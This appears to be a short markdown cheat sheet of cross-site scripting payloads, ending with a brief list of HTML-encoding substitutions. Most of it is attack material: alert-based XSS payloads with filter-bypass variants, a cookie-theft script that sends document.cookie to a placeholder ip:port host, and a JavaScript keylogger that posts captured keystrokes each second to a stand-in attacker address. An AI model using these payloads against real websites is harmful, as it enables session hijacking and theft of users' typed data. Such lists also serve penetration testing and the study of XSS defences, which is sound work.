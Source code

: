 - Various XSS payloads
	- `<img src='LINK' onmouseover="alert('xss')">`
	- `<img src=x onerror=alert(1)>`
	- `<img \x00src=x onerror="alert(1)">` - Possible filter bypass
	- `<object data=javascript:alert(1)>`
	- `<script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script>`
	- `<image src="javascript:alert(1)">`
	- `<body oninput=javascript:alert(1)><input autofocus>`
- Cookie Theft
	- `<script>document.location='http://ip:port/?='+document.cookie;</script>`

- Keylogger
	```HTML
	<script> 
	var keys='';
	document.onkeypress = function(e) { 
	  get = window.event?event:e;
	  key = get.keyCode?get.keyCode:get.charCode;
	  key = String.fromCharCode(key);
	  keys+=key; 
	} 
	window.setInterval(function(){
	  new Image().src = 'http**s**://**attackerAddress**/**kl**.php?c='+keys;
	  keys = ''; 
	}, 1000);
	</script>
	```

- HTML encoding
	-   < encoded to &lt;
	-   > encoded to &gt;
	-   ‘ encoded to &apos;
	-   “ encoded to &quot;
	-   & encoded to &amp;